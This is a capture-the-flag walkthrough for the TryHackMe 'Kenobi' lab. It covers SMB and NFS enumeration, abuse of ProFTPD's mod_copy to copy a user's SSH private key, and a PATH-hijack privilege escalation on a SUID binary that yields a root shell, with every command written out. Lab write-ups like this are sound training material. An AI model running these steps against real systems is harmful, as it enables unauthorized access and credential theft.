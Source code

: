 ```yaml
---
description: 'This is my walkthrough for the TryHackMe Room: Kenobi.'
---
```


# Kenobi

This room can be found [here](https://tryhackme.com/room/kenobi). This will be exploiting a linux machine, enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation.

I will be going through room using the attackbox

## Task 1

### Question #1: Scan the machine with nmap, how many ports are open?

`sudo nmap -sS -sV -vv -oA Kenobi 10.10.95.185`

Our results show us the answer:

![](<../.gitbook/assets/image (156).png>)

## Task 2

### Question #1: Using the nmap command above, how many shares have been found?

This asks us to run the nmap scan `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.95.185` to find the shares.&#x20;

### Question #2: Once you're connected, list the files on the share. What is the file can you see?

We can connect to the machine via SMB with `smbclient //10.10.95.185/anonymous`.When prompted for a password, we can press enter to connect with no password.

Once we're connected we can run `ls` to see what files are there. We can download the file(s) with `smbget -R smb://10.10.95.185/anonymous`.  Again pressing enter when prompted for a password for a blank/empty password.

### Question #3: What port is FTP running on?

Refer back to our Nmap scan.

### Question #4: What mount can we see?

Running the nmap scan `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.95.185` we can see the mount point.

## Task 3

### Question #1: What is the version?

Referring back to our Nmap scan result again we can find the ProFtpd version.

### Question #2: How many exploits are there for the ProFTPd running?

We can use [searchsploit](https://github.com/offensive-security/exploitdb) or [exploit-db](https://www.exploit-db.com/) to find the exploits. As the room states, we should have found exploit from ProFtpd's [mod\_copy module](http://www.proftpd.org/docs/contrib/mod\_copy.html). So now now we are going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.

First connect to the target via FTP with netcat with `nc 10.10.95.185 21`.

Then we `SITE CPFR /home/kenobi/.ssh/id_rsa`.

Finally `SITE CPTO /var/tmp/id_rsa`.

This does a "copy from" selecting the file name, and "copy to" selecting where you're copying the file to.

### Question #3: What is Kenobi's user flag (/home/kenobi/user.txt)?

Since we know the /var is a mount point, we can mount that to our machine and copy the files we need from there.

We can easily follow the rooms directions to create a mount point and mount the /var directory to the newly created mount point.

`mkdir /mnt/kenobiNFS`

`mount` 10.10.95.185`:/var /mnt/kenobiNFS`&#x20;

`ls -la /mnt/kenobiNFS`

Now that we have this mounted, we can go into the `tmp` directory to get the `id_rsa` file we copied to that directory. `cp /mnt/kenobiNFS/tmp/id_rda .` and then we change permissions on that file so we can use the file. `sudo chmod 600 id_rsa`. Finally we can now ssh into the machine and obtain the flag!

`ssh -i id_rsa kenobi@10.10.95.185` and after we have established a connection, `cat /home/kenobi/user.txt`.

## Task 4

We will be looking for SUID bits to able to manipulate so we can escalate to the root user.

As the room states, we can find SUID bits with `find / -perm -u=s -type f 2>/dev/null`.

### Question #1: What file looks particularly out of the ordinary?

Some of these might not jump out to new users right away, but the `/usr/bin/menu` file stands out a bit.

### Question #2: Run the binary, how many options appear?

What happens when we run the command `menu`?

![](<../.gitbook/assets/image (13) (1) (1).png>)

Strings is a command on Linux that looks for human readable strings on a binary. This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname). As this file runs as the root users privileges, we can manipulate our path gain a root shell.

So as the room states, we can:

`cd tmp && echo /bin/sh > curl`

`chmod 777 curl`

`export PATH=/tmp:$PATH`

`/usr/bin/menu`

So now if we type 1 for our status check we should be the root user.

This creates a file called `curl` with the contents `/bin/sh`, changed the permissions, and adds the `/tmp` directory to the path so when the "status check" is run from the `menu` command and it runs curl, it's actually running /bin/sh giving us root permissions.

### Question #3: What is the root flag (/root/root.txt)?

`cat /root/root.txt`

